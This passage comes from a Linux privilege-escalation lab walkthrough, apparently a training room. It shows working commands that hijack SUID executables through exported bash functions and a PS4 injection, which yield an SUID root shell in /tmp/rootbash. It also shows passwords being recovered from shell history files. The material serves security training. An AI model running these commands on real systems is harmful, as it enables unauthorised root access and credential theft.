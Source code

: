     function /usr/sbin/service { /bin/bash -p; }
    export -f /usr/sbin/service

Run the `suid-env2` executable to gain a root shell:

    /usr/local/bin/suid-env2

Exit out of the root shell before continuing!

## SUID/SGID executables - Abusing shell features (#2)

_Note: This will not work on Bash versions 4.4 and above._

When in debugging mode, Bash uses the environment variable `PS4` to display an extra prompt for debugging statements.

Run the `/usr/local/bin/suid-env2` executable with bash debugging enabled and the `PS4` variable set to an embedded 
command which creates an `SUID` version of `/bin/bash`:

    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the `/tmp/rootbash` executable with `-p` to gain a shell running with root privileges:

    /tmp/rootbash -p

Remove the `/tmp/rootbash` executable and exit out of the elevated shell before continuing as you will create this 
file again later.

    rm /tmp/rootbash
    exit

## Passwords & keys - History files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded 
in a history file.

View the contents of all the hidden history files in the user's home directory:

    cat ~/.*history | less

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password 
submitted via the command line. Note that there is no space between the `-p` option and the password!

Switch to the root user, using the password:

    su root

Exit out of the root shell before continuing!

### Questions

**What is the full mysql command the user executed?**
